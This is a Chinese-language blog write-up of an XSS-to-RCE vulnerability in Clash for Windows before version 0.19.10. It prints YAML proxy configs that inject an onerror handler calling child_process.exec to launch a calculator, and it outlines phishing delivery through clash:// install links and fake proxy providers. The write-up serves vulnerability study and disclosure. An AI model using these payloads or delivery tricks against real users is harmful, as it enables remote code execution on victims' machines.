 # Clash For Windows Rce

## 前言

23号Clash for windows爆出了rce的漏洞，我听到的时候也是一懵，因为clash for windows是自己一直在用的代理客户端，而且相信使用windows的大多数人的代理客户端用的也都是clash for windows，涉及人数也还是比较广的，所以立刻查找了相关的资料来了解这个rce。

## Clash for windows简介

Clash 是一个使用 Go 语言编写，基于规则的跨平台代理软件核心程序，而Clash for Windows 是目前在 Windows 上唯一可用的图形化 Clash 分支。通过 Clash API 来配置和控制 Clash 核心程序，便于用户可视化操作和使用。其支持众多协议，例如Vmess, Shadowsocks, Snell , SOCKS5 , ShadowsocksR等，是一款非常强大的代理客户端：

![image-20220226183726058](Clash For Windows Rce.assets/image-20220226183726058.png)

至于代理是干什么的，就不必多说了hhh。



## 漏洞分析

漏洞说白了就是开发没有对于输入进行合理的过滤导致了XSS到RCE的发生。

我对于这类型的情况最早的了解是在大家都在用的蚁剑的RCE，具体可以参考evoa的文章：[蚁剑客户端RCE的挖掘过程及Electron安全](https://evoa.me/archives/3/ )

简单来说就是，蚁剑是基于Electron开发的，而Electron应用最大的问题就是从XSS到RCE的攻击。之前的蚁剑就是因为没有对输入进行合适的过滤导致了xss到rce：

![image.png](Clash For Windows Rce.assets/1553600099332-4357473e-345e-4cd3-9d3a-ee9823898795.png#align=left&display=inline&height=800&name=image.png&originHeight=1600&originWidth=2090&size=1120369&status=done&width=1045)

而Clash for windows的开发显然也在这方面没有做好。

这里以我自己的代理的yml文件为例：

![image-20220226191018872](Clash For Windows Rce.assets/image-20220226191018872.png)

在Proxies中展示是这样的：

![image-20220226191043516](Clash For Windows Rce.assets/image-20220226191043516.png)

可以发现，proxies的name，还有proxy-groups的name都被展示到了前端，是否存在xss漏洞呢？本地写1个yml文件来测试一下：

```yml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: ':9090'
proxies:
    - { name: <img src =# onerror=alert(1)>, type: vmess, server: 123, port: '29999', uuid: B00EC15A-B535-411D-95D6-CAEA028C477F, alterId: 0, cipher: auto, udp: false }
proxy-groups:
    - { name: '🚀 节点选择', type: select, proxies: [<img src =# onerror=alert(1)>] }

```

选择：

![image-20220226191451528](Clash For Windows Rce.assets/image-20220226191451528.png)

切到Proxies，弹窗，说明XSS存在：

![image-20220226191527393](Clash For Windows Rce.assets/image-20220226191527393.png)

改成rce：

```yml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: ':9090'
proxies:
    - { name: <img src=# onerror="require('child_process').exec('calc');">, type: vmess, server: 123, port: '29999', uuid: B00EC15A-B535-411D-95D6-CAEA028C477F, alterId: 0, cipher: auto, udp: false }
proxy-groups:
    - { name: '🚀 节点选择', type: select, proxies: [<img src=# onerror="require('child_process').exec('calc');">] }

```

成功弹出计算器：

![image-20220226191923120](Clash For Windows Rce.assets/image-20220226191923120.png)

## 利用

乍一看这似乎是self-xss，但是要知道配置文件要么是自己写，要么是直接download的：

![image-20220226192531010](Clash For Windows Rce.assets/image-20220226192531010.png)

因为真正的会去学习自己写配置文件的人可能只有非常小的一部分，所以大部分的代理自身提供了clash for windows的配置下载url，比如我的代理：

![image-20220226192807839](Clash For Windows Rce.assets/image-20220226192807839.png)

因此此漏洞以后更多可能会在钓鱼中被利用，比如假冒成免费的代理供应商，总会有人贪图免费的代理然后去clash for windows上下载对应的url然后使用导致了rce。



另外一种利用就是issue中提到的比如这样的`clash://install-config?url=http://xxx/1.cfg`

如果我把恶意的配置文件写到了服务器上，如果受害者的浏览器点击了这个链接就会自动打开clash for windows来下载此配置文件并使用，唯一的问题可能就是，会有提示：

![image-20220226193059391](Clash For Windows Rce.assets/image-20220226193059391.png)

能想到的利用方式可能就是用于钓鱼网站了，比如302跳转的网站，点进去就自动跳转到`clash://`这样的，一旦点击者没有安全意识的话，很容易会中招。

## 影响版本

根据github上issue的说法以及releases等的说法，真正的修复了这个XSS漏洞应该是在[v 0.19.10](https://github.com/Fndroid/clash_for_windows_pkg/releases/tag/0.19.10)，也就是说在此版本之前的Clash for windows都存在RCE漏洞，非常危险。

## 参考

https://github.com/Fndroid/clash_for_windows_pkg/issues/2710